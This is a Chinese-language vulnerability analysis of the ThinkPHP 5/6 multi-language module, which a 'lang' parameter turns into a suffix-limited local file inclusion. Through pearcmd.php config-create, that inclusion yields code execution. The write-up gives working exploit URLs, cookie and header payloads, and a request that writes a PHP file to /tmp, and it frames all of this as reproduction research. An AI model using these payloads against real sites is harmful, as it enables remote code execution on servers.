# ThinkPHP 6 多语言模块 RCE 漏洞利用分析

## 前言

在漏洞复现与分析过程中，很容易流于表面的复现，又或是陷入细节的迷宫。那么我们应该如何找到真正的大门？

在笔者看来，对于一个新的漏洞，我们的研究方式首先是提出并尽可能回答问题：

1. 漏洞的逻辑是怎样的？不同版本有何区别？
2. 漏洞利用可以拆分为漏洞原型 + trick，那么哪些 trick 是有用的，哪些是没有用的，为什么？
3. 和该组件历史上的漏洞有哪些关联？
4. 对挖掘同类型的漏洞有什么启发意义？

然后在复现、分析、总结的过程中始终围绕这几个核心问题去不断思考、发问、记录。


##  配置环境

### phpStudy 配置

如果各位要调试 PHP，Windows 上使用 phpStudy 是比较方便的选择。

（注意在此界面配置 PHP 的时候，每次点确认都会重写配置文件，不要后续改动后，再次在这个界面设置确认。）



在 php.ini 中，我们同样要修改设置以便于我们远程调试：





并且新增一个自动开始的设置：



最后，修改 apache 的超时设置，也是为了方便调试

```
KeepAliveTimeout 5000
MaxKeepAliveRequests 100
Timeout 6000
FcgidIOTimeout 6000
```




---

### VSCODE 配置

vscode 配置设置相应的 PHP 程序位置





配置调试的 launch.json 端口（与 phpStudy 一致）




---

### 安装 ThinkPHP

安装 ThinkPHP 可以使用 composer 来安装，版本号可以自行指定。

```
composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/
composer create-project topthink/think=6.0.2 ./ThinkPHP-6 （通过composer直接获取的ThinkPHP 6各版本都是12月16日修复过的，推荐使用docker来复现ThinkPHP 6版本的漏洞）
composer create-project topthink/think=5.0.10 ./ThinkPHP-5
```

---

## 漏洞利用分析


### ThinkPHP 5 的部分利用研究

这里我们先来看看老版本 ThinkPHP 5 是如何处理相关的逻辑的，常见的路径如下，可以从中找到多语言模块相关的配置。

```
/ThinkPHP-5-dir/config/app.php
/ThinkPHP-5-dir/application/config.php
```

默认情况下是不会开启的，我们**手动配置**成 **true**。



我们先来看看最直接的 POC 是怎样的，直接包含一个 index 会有报错，效果不是很明显（注意 Linux 必须使用 `/`，只有 Windows 同时兼容 `\` ）：

`http://127.0.0.1/public/?lang=../../../public/index`



换一个更直接一点的情况，在 `/public/` 的目录下新建一个 `phpinfo` 的文件，再次尝试文件包含：





访问 `http://127.0.0.1/public/?lang=../../../public/info2` 发现确实能够进行文件包含。




再通过代码分析一下逻辑：开启多语言功能后，使用 `detect()` → 通过 url 参数读取 `langSet` → 加载语言包 `include $_file`；





url 中的参数 `lang=../../../public/info2` 通过上面的途径被传入到 ThinkPHP 5 框架变量中。



传入的 ThinkPHP 5 框架变量直接被当作文件路径和文件名，然后**拼接 PHP 文件名后缀**。



拼接 PHP 文件名后缀之后，判断文件是否实际存在，最后通过`include`进行文件包含（LFI）。



类似的，我们也可以传入参数 `lang=../../public/info2`，这时候则是让 `$file[1]` 被包含。



因此，可以把 ThinkPHP 5 版本下漏洞的原型视为 **后缀受限的 LFI** 。

但是，为了稳定地利用又产生了新的问题：怎样稳定产生用于包含的本地文件呢？此处正确答案笔者先暂时按下不表，往下提出几种可能性方案，请读者耐心继续往下看。

---

### 有关 PHPINFO + LFI 等利用思路的局限

在 P 牛师傅的文章 [Docker PHP 裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html) 中提到了多种利用包含临时文件来实现 RCE 的思路，但这里我需要说明一下为什么大部分思路在这里都是无效的。

值得注意的一点是，这个数组拼接了 PHP 的后缀，且使用了  `is_file()`  进行检查，因此通过**日志、session、临时文件**等方式利用的通道被堵死了。

```php
 Lang::load([
                THINK_PATH . 'lang' . DS . $request->langset() . EXT,
                APP_PATH . 'lang' . DS . $request->langset() . EXT,
            ]);
```

例如使用《[自如网某业务文件包含导致命令执行（LFI + PHPINFO getshell 实例）](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0151653)》这个案例中所演示的脚本进行利用，其主要思路是：访问 PHP 并 post 上传文件时，会产生临时文件（与实际 PHP 逻辑无关），在临时文件被清除前利用文件包含实现 RCE。而且恰好 phpinfo 可以显示当前的临时文件名，通过条件竞争很容易达成在临时文件被清除前利用文件包含。

临时文件生成原理如下图（出自[Gynvael Coldwind](https://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf)的文章）：



但在 ThinkPHP 多语言模块漏洞下，除了在 Windows 下存在读取文件名不完整和跨盘符的问题外（Linux 下没有这个问题），本质问题还是该 LFI 漏洞所使用 lang 参数无法读取非 PHP 后缀的文件。






类似的，目标环境开启了 `session.upload_progress.enable` 选项，也因为**后缀**问题无法包含可控的 session 文件导致利用失败。


不过很有意思的一点是：如果目标是 PHP 5.X 且是 Windows 系统，可以利用 Windows 的通配符特性读取文件。（这里我们手动在 Web 目录下放一个 phpinfo.php 文件进行测试）





ppqq PHP 在读取 Windows 文件时，会使用到 [FindFirstFileExW](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstfileexw) 这个 Win32 API 来查找文件，而这个 API 支持使用通配符。

ppqq - DOS_STAR：即 `<`，匹配 0 个以上的字符
ppqq - DOS_QM：即`>`，匹配 1 个字符
ppqq - DOS_DOT：即`"`，匹配点号




---

### 有关 ThinkPHP 5.X 命令执行与多语言 LFI 的组合利用

琢磨了半天感觉有点鸡肋，等研究出什么特别有意思的东西后再补。权且先贴一张七月火师傅的 ThinkPHP 5-RCE 漏洞流程图以供思路启发：

基于控制器利用



基于路由的利用



---

### ThinkPHP 6 的部分利用研究

复现漏洞最推荐使用 docker 进行复现操作。

```bash
docker pull vulfocus/thinkphp:6.0.12
```


本地安装 ThinkPHP 6 也可以使用 composer 来安装，版本号可以自行指定：

```bash
composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/
composer create-project topthink/think=6.0.2 ./ThinkPHP_6 （通过composer直接获取的ThinkPHP 6各版本都是12月16日修复过的）

#解决办法
docker pull vulfocus/thinkphp:6.0.12（推荐，可以从镜像中提取老版的\vendor\topthink\framework替换\ThinkPHP_6\vendor\topthink\framework路径下的文件来进行调试复现）
https://github.com/top-think/framework (不推荐，可以在此处下载对应老版本版本的源码替换\ThinkPHP_6\vendor\topthink\framework路径下的文件来进行调试复现)
```

ThinkPHP 6 处理相关的逻辑的常见的路径如下，可以从中找到多语言模块相关的配置。

```
/ThinkPHP-6-dir/app/middleware.php
```

默认情况下是不会开启的，我们也是手动配置一下，去掉注释。



此处就不再重复 ThinkPHP 5 中 `phpinfo` 的方式，使用 `http://127.0.0.1/public/?lang=../../../../../public/index` 产生报错证明漏洞。（注意 Linux 必须使用 `/`，只有 Windows 同时兼容 `\` ）



等价 `Cookie: think_lang=..%2F..%2F..%2F..%2f..%2Fpublic%2Findex`



等价 `think-lang: ../../../../../public/index`



这几种 payload 等价的原因体现在代码层面，就是设置了三个判断逻辑来接收变量。



后续的逻辑也是和 ThinkPHP 5 基本一样，获取的变量直接**拼接 PHP 后缀**进行**文件包含**。



---

### pearcmd.php 的利用思路是如何突破局限的

这里引用一下 P 牛的介绍，我们只需要知道，它是 PHP 文件且 docker 中都会安装即可。（顺带一提 ThinkPHP 6 必须要使用 PHP 7.2 以上才能正常运行）

ppqq pecl 是 PHP 中用于管理扩展而使用的命令行工具，而 pear 是 pecl 依赖的类库。在 7.3 及以前，pecl/pear 是默认安装的；在 7.4 及以后，需要我们在编译 PHP 的时候指定 `--with-pear` 才会安装。

ppqq 不过，在 Docker 任意版本镜像中，pcel/pear 都会被默认安装，安装的路径在 `/usr/local/lib/php`。

通过命令行的形式查看 pearcmd 的参数：



我们可以找到一个 `config-create` 的 command；其中 `root path` 指定了创建的配置文件中的 root path 变量，该字符串就被包含在文件里了；`filename` 参数可以控制生成的指定目录和文件名；通过这两个参数可以建立含有指定内容的文件在任意目录。

比如 `bash# PHP /usr/local/lib/php/pearcmd.php  config-create /<?=phpinfo()?> /tmp/hello.php ` 就可以创建 `/tmp/hello.php` 文件，里面的内容就包含了 `/<?=phpinfo()?>`。**这里的`/`符号不可或缺，因为必须符合 root path 的路径格式要求。**



但从这里来看，pearcmd 很显然是一个命令行文件，似乎和文件包含漏洞关系不大。

---

这里我们先来简单了解一下另一个概念：CGI（以下两段引用自[《全面了解 CGI、FastCGI、PHP-FPM》](https://cloud.tencent.com/developer/article/1538240)）

ppqq CGI（Common Gateway Interface）全称是“通用网关接口”，WEB 服务器与 PHP 应用进行“交谈”的一种工具，其程序须运行在网络服务器上。CGI 可以用任何一种语言编写，只要这种语言具有标准输入、输出和环境变量。如 php、perl、tcl 等。

ppqq WEB 服务器会传哪些数据给 PHP 解析器呢？URL、查询字符串、POST 数据、HTTP header 都会有。所以，CGI 就是规定要传哪些数据，以什么样的格式传递给后方处理这个请求的协议。也就是说，CGI 就是专门用来和 web 服务器打交道的。web 服务器收到用户请求，就会把请求提交给 cgi 程序（如 php-cgi），cgi 程序根据请求提交的参数作应处理（解析 php），然后输出标准的 html 语句，返回给 web 服服务器，WEB 服务器再返回给客户端，这就是普通 cgi 的工作原理。（cgi 程序，你就可以理解成遵循 cgi 协议编写的程序）

了解完 CGI 的概念，代入到常见的 Apahce+php 的架构中，我们来熟悉一次请求 index.php 的过程。

ppqq 

ppqq 当请求的是 index.php，根据配置文件，Web Server 知道这个不是静态文件，需要去找 PHP 解析器来处理，那么他会把这个请求简单处理，然后交给 PHP 解析器。 

ppqq Web Server 收到 index.php 这个请求后，会启动对应的 CGI 程序，这里就是 PHP 的解析器。接下来 PHP 解析器会解析 php.ini 文件，初始化执行环境，然后处理请求，再以规定 CGI 规定的格式返回处理后的结果，退出进程，Web server 再把结果返回给浏览器。这就是一个完整的动态 PHP Web 访问流程，接下来再引出这些概念，会好理解很多。

ppqq **CGI**：是 Web Server 与 Web Application 之间数据交换的一种协议。

ppqq **FastCGI**：同 CGI，是一种通信协议，但比 CGI 在效率上做了一些优化。

ppqq **PHP-CGI**：是 PHP（Web Application）对 Web Server 提供的 CGI 协议的接口程序。

ppqq **PHP-FPM**：是 PHP（Web Application）对 Web Server 提供的 FastCGI 协议的接口程序，额外还提供了相对智能一些任务管理。

ppqq（Web Server 一般指 Apache、Nginx、IIS、Tomcat 等服务器，Web Application 一般指 PHP、Java、Asp.net 等应用程序）

---

关于这个 trick 这里我们提两点前提条件：

ppqq Docker 环境下的 PHP 会开启 `register_argc_argv` 这个配置。当开启了这个选项，用户的输入将会被赋予给 `$argc`、`$argv`、`$_SERVER['argv']` 几个变量。

ppqq PHP 以 Server 的形式运行，且又开启了 `register_argc_argv` ，在请求是 GET 或 HEAD 时，则 query-string 被可以作为命令行参数输入。

这里再次关联一下这篇文章：《 [PHP-CGI 远程代码执行漏洞（CVE-2012-1823）分析](https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html) 》。从中我们可以窥见 cgi 漏洞的历史渊源。

ppqq 当 query-string 中不包含没有解码的=号的情况下，要将 query-string 作为 cgi 的参数传入。所以，Apache 服务器按要求实现了这个功能。

此处 P 牛提到的  [RFC3875](http://www.ietf.org/rfc/rfc3875)  中规定了服务器处理 query-string 的方式，Apache 正是按照这个标准实现的 CGI 协议，借助 CGI 协议与 PHP 进行通信；PHP 的源码中不限制 php-cgi 接受命令行参数；也就是说，根据这个 RFC3875 规定，Apache 发现 **GET 或者 HEAD 请求传输的 querystring 中不包含没有解码的=号**的情况下，会将 querystring 作为 cgi 的参数传入，且**开启了 `register_argc_argv` 的 PHP**将其会视为命令行参数进行接受。

> ```
> 4.4.  The Script Command Line
> 
> Some systems support a method for supplying an array of strings to
> the CGI script.  This is only used in the case of an 'indexed' HTTP
> query, which is identified by a 'GET' or 'HEAD' request with a URI
> query string that does not contain any unencoded "=" characters.  For
> such a request, the server SHOULD treat the query-string as a
> search-string and parse it into words, using the rules
> 
> search-string = search-word *( "+" search-word )
> search-word   = 1*schar
> schar         = unreserved | escaped | xreserved
> xreserved     = ";" | "/" | "?" | ":" | "@" | "&" | "=" | "," |
>                 "$"
> 
> After parsing, each search-word is URL-decoded, optionally encoded in
> a system-defined manner and then added to the command line argument
> list.
> ```

细看 [RFC3875](http://www.ietf.org/rfc/rfc3875) 描述：search-string 指的是 cgi 中命令行输入，命令行输入中多个参数使用`+`来分割

eg：`http://abc.com/input.cgi?pramA+pramB+pramC` 等价于命令行形式 `bash# ./input.cgi  pramA pramB pramC`

实际上并不仅限于 cgi 文件，从 [RFC3875](http://www.ietf.org/rfc/rfc3875) 描述中可知，Apache 其实并不会考虑后缀，只要符合 GET 和不包含没有解码的=号参数的情况就会作为命令行参数进行参数传入。

那么加上 lang 参数后（这里显式的写了 index.php，上文是隐式访问了 index.php，但具体访问哪个 PHP 文件并无关系我们只需要 ThinkPHP 框架的全局参数 lang 来包含 pearcmd 即可）：

`http://127.0.0.1/public/index.php?+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`

这里的`querystring`=`+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`

这一长串输入都是 querystring， `+config-create+` 和 `+/tmp/hello.php` 的 `+` 符号可以视为空格的替代。

由于 Apache 把整个`querystring`=`+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`都作为 cgi 的命令行参数传入 php。

且含有参数 lang，所以 PHP 处理中也会触发 LFI 漏洞，相当于`?lang=../../../../../../../../usr/local/lib/php/pearcmd` 被触发了。

随后根据上下文，`querystring` 作为 cgi 的命令行参数传入到被包含的 pearcmd 中。**（对更详细的处理过程感兴趣的可以参看我写的另一篇《浅谈 Apache/Nginx 与 PHP-CGI 之间的关系》）**

理想情况下等价于<=>

`bash# PHP /usr/local/lib/php/pearcmd.php  config-create /<?=phpinfo()?> /tmp/hello.php `  

中间的空格刚刚好是对应三个 `+` ，执行效果也就是在指定路径的创建指定文件内容。

但还记得我们刚刚说的吗？

ppqq 这里的`querystring`=`+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`
这一长串输入都是 querystring，`+config-create+`和`+/tmp/hello.php`的`+`符号可以视为空格的替代。

所以最终等价于<=>

`bash# PHP /usr/local/lib/php/pearcmd.php  config-create /&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?> /tmp/hello.php `  

通过以上几点就不难理解为什么 payload 中的参数与下图我们平时理解的 URL 有一些不同。




---

这里我们顺理成章的使用 poc 请求：

`http://127.0.0.1/public/index.php?+config-create+/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/hello.php`







此时我们看一下创建的文件内容应该能更好的理解整个漏洞利用的处理方式。


```shell
# cat /tmp/hello.php
#PEAR_Config 0.9
a:13:{s:7:"php_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/php";s:8:"data_dir";s:82:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/data";s:7:"www_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/www";s:7:"cfg_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/cfg";s:7:"ext_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/ext";s:7:"doc_dir";s:82:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/docs";s:8:"test_dir";s:83:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/tests";s:9:"cache_dir";s:83:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/cache";s:12:"download_dir";s:86:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/download";s:8:"temp_dir";s:82:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/temp";s:7:"bin_dir";s:77:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear";s:7:"man_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/man";s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}}# 
```

那么更好的 poc 改进方式，就是把 lang 参数提前，在保证触发 lang 参数的情况下，减少多余符号。同时切记保留 `config-create /<?=phpinfo() /tmp/hello.php` 中，参数 `root path` 要求的不可或缺的一个 `/` 即可：

`http://127.0.0.1/public/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo()?>+/tmp/hello.php`



---

##  暂时的总结

写完这篇分析文章，回过头再看一下开头写的几个问题：

1. 漏洞的逻辑是怎样的？不同版本有何区别？
2. 漏洞利用可以拆分为漏洞原型 + trick，那么哪些 trick 是有用的，哪些是没有用的，为什么？
3. 和该组件历史上的漏洞有哪些关联？
4. 对挖掘同类型的漏洞有什么启发意义？

我们不难知晓：

ThinkPHP 6 版本下漏洞的原型为 **后缀受限的 LFI** + **pearcmd.php 的 LFI 利用 Trick**

ThinkPHP 5 版本下漏洞的原型为 **后缀受限的 LFI** + **Windows 的 LFI 通配符利用 Trick** (当然，条件允许的情况下一样可以使用 pearcmd 的 trick)

由于后缀受限，致使我们必须通过包含`.php`后缀的文件才能实现漏洞利用，从而排除了利用临时文件、session、日志等的 trick。

最后，对比 ThinkPHP 5 RCE，本漏洞为 LFI 类型漏洞；

ThinkPHP 5.x 命令执行分为两种：其一，是框架 `Request` 类的 `method` 方法可控，借助该方法可去调用其他方法（此处是调用一个析构方法，去进一步覆盖有命令执行 sink 的类的变量）。其二，是通过路由去调用指定控制器，进一步调用控制器内的方法实现的 RCE 或者 LFI。

本身 RCE 是自成体系的，不太需要这限制多语言配置下的后缀受限 LFI 漏洞。（个人对 ThinkPHP 5 RCE 的利用链理解还是比较有限，此外公开一些鸡肋的利用方式也不过是给菠菜站点升级的机会罢了）

如果要挖掘同类漏洞，主要还是寻找 ThinkPHP 框架提供的全局变量的输入点 source，有更靠谱的输入点比较重要。ThinkPHP 的修补方式大多以输入点过滤为主，对后续的利用链影响不大。


---

## 5. 参考资料

[Docker PHP 裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

 [RFC3875](http://www.ietf.org/rfc/rfc3875) 

[PHP-CGI 远程代码执行漏洞（CVE-2012-1823）分析](https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html)

[PHP_LFI_rfc1867_temporary_files - Gynvael Coldwind](https://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf)

[全面了解 CGI、FastCGI、PHP-FPM](https://cloud.tencent.com/developer/article/1538240)